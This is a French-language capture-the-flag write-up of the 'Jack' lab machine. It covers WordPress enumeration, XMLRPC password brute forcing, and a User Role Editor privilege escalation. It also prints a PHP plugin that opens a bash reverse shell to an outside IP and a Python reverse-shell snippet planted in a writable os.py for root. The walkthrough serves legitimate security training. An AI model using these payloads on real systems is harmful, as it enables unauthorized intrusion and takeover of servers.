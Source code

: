 # Jack | Hard

![Untitled](https://user-images.githubusercontent.com/68467919/209412366-2c4baaf0-bc39-4e16-851d-93925b4af3ca.png)

## Énumération

Comme demandé dans l’énoncé, nous ajoutons jack.thm à notre /etc/hosts

### Nmap | Scan

```bash
sudo nmap -sC -sV -O -oN enum/nmap -vv jack.thm

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3e7978089331d0837fe2bcb614bf5d9b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDgHGMuutSoQktLWJfDa8F4+zCvINuPv8+mL2sHPJmSfFDaQ3jlsxitYWH7FWdj3zPzXLW01aY+AySXW593T3XZpzCSAjm3ImnPtNTaQsbsdkgmhj8eZ3q9hPxU5UD5593K+/FDdIiN5xIBLegm6y0SAd3sRtpdrcpHpkqOIZvoCyJTV7ncbRY0gppvfTEObo2PiCtzh31gbaDPrJICPnDuuF5aWAUTeUMc0YcMYaB9cCvfVT6Y1Cdfh4IwMHslafXRhRt5tn5l47xR0xwd3cddUEez/CHxiNthNTgv+BSo+TPPciPAiCN3QGSqTcPQ74RvFiAznL2irkENq+Qws2A3
|   256 3a679faf7e66fae3f8c754496338a293 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLzJknVQsubSrZMKNLlNAP1HXXuXzhtAf24ScY17eIS03NfxjFwiSESz8xKwVcmbODQGc+b9PvepngTTGlVrMf4=
|   256 8cef55b023732c14094522ac84cb40d2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG/WxvJRsI0dvT84mxR/y3AH3C8KP/1Njv4wP6DylZeQ
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-title: Jack&#039;s Personal Site &#8211; Blog for Jacks writing adven...
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-generator: WordPress 5.3.2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

### Wpscan

```bash
wpscan --url http://jack.thm/ --enumerate u1-10

[i] User(s) Identified:

[+] jack
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://jack.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] wendy
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] danny
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

Trois utilisateurs sont trouvés grâce à Wpscan. Nous pourrions essayer de bruteforce le mot de passe de ces différents utilisateurs car **XMLRPC** est activé. La méthode **_system.multicall()_** permet d’envoyer plusieurs appels dans **une seule requête HTTP**. Grâce à ce “wrapper”, nous pouvons effectuer un grand nombre de tentatives de connexion avec un impact minimal sur le réseau. Nous allons en profiter pour pouvoir tenter de trouver le mot de passe d’un des trois utilisateurs ci-dessus. 

![Untitled 1](https://user-images.githubusercontent.com/68467919/209412372-ea2a6400-aa13-4785-98be-ceee6d110895.png)

Nous pouvons désormais nous connecter sur le panel du Wordpress grâce aux identifiants que nous avons trouvé.

## Wordpress | Wendy

![Untitled 2](https://user-images.githubusercontent.com/68467919/209412381-8dcf81bc-7cd9-46d9-9d3a-4e761764ddb5.png)

### User Role Editor Security Bypass

En cherchant une vulnérabilité lié à la version du Wordpress, je suis tombé sur cette CVE : 

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/44595)

La vulnérabilité permet à tout utilisateur enregistré d'obtenir un accès administrateur. 

Au lieu de vérifier si l'utilisateur actuel a le droit de modifier les profiles (capacité WP "edit_users"), la fonction vulnérable vérifie si l'utilisateur courant a le droit de modifier l'utilisateur (fonction WP "edit_user") spécifié par l'identifiant fourni (variable "user_id"/paramètre HTTP POST).

Cette vulnérabilité permet à un utilisateur authentifié d'ajouter un éditeur de rôle à son profil, en les spécifiant via le paramètre "ure_other_roles" dans la requête HTTP POST au module "profile.php" (émise lorsque "Update Profile" est cliqué).

*Plus d’informations ici :* 

[Vulnerability in User Role Editor - Users Can Become Admins](https://www.wordfence.com/blog/2016/04/user-role-editor-vulnerability/)

En utilisant donc BurpSuite, j’ai modifié ma requête pour pouvoir s’élever en privilège sur le Wordpress.

![Untitled 3](https://user-images.githubusercontent.com/68467919/209412398-42f3fcc3-4975-4fbb-8a49-cb5d1720299c.png)

![Untitled 4](https://user-images.githubusercontent.com/68467919/209412411-98be8088-4317-488e-9cbe-6099f4f36705.png)

Pour obtenir un reverse-shell sur la machine, nous devons upload un nouveau plugin sur le Wordpress.

J’utilise ce payload ci-dessous : 

```php
<?php

/**
* Plugin Name: Wordpress Reverse Shell
* Author: b0unce
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/10.11.15.200/1337 0>&1'");
?>
```

Ensuite je le compresse dans un zip pour pouvoir l’upload.

```bash
zip reverse-shell.zip reverse-shell.php
```

Et je l’upload par la suite dans *Plugins*.

![Untitled 5](https://user-images.githubusercontent.com/68467919/209412419-d2e4c965-e5cc-4ecb-bf32-4bd899fe23f1.png)

![Untitled 6](https://user-images.githubusercontent.com/68467919/209412424-83b67a8b-1490-4b12-8499-75dc609b61c0.png)

(au moment où j’upload le zip, le fichier existe déjà car je l’ai déjà fait)

Après ça, il faut activer le plugin en lançant d’abord notre listener et boom !!

![Untitled 7](https://user-images.githubusercontent.com/68467919/209412433-6dbb73cd-ac25-4da0-903a-edc63cd6ff41.png)

## Flag 1 | Jack

![Untitled 8](https://user-images.githubusercontent.com/68467919/209412440-a96faa2d-2c5c-4448-9dad-5c0ed6418102.png)

Dans le fichier reminder.txt nous pouvons comprendre qu’une backup de Jack a été hacké ! En fouillant un peu dans les fichiers du système, nous pouvons trouver le répertoire /var/backups/ qui contient un fichier id_rsa. Avec l’id_rsa trouvé, nous pouvons nous connecter en SSH à la session de Jack.

## **Root**

En regardant les différents cronjob avec pspy nous pouvons voir que le script [checker.py](http://checker.py) s’exécute toutes les minutes 

![Untitled 9](https://user-images.githubusercontent.com/68467919/209412444-1f093016-e238-48bb-abc1-b1116001b7dd.png)

Nous pouvons vérifier ça aussi dans l’output qu’il génère.

![Untitled 10](https://user-images.githubusercontent.com/68467919/209412446-2d9ccca7-eb62-43c1-a28b-8b0c34d502e8.png)

```python
import os

os.system("/usr/bin/curl -s -I http://127.0.0.1 >> /opt/statuscheck/output.log")
```

Nous pouvons voir que le script utilise le module OS et la fonction system qui fait un appel au binaire curl pour pouvoir récupérer l’header de la requête puis le stock dans output.log.

En regardant les droits du module OS qui est dans le répertoire /usr/lib/python2.7/os.py nous pouvons écrire dedans !

![Untitled 11](https://user-images.githubusercontent.com/68467919/209412452-88d8b413-1db8-4924-a320-a27be3507774.png)

Nous pouvons ajouter ce morceau de code à la fin de os.py

[https://blog.finxter.com/python-one-line-reverse-shell/](https://blog.finxter.com/python-one-line-reverse-shell/)

```python
import socket,subprocess,os
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("{ip}",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

![Untitled 12](https://user-images.githubusercontent.com/68467919/209412457-e2958b36-3121-4cad-b1d2-da1c5e974b75.png)

ROOTED!
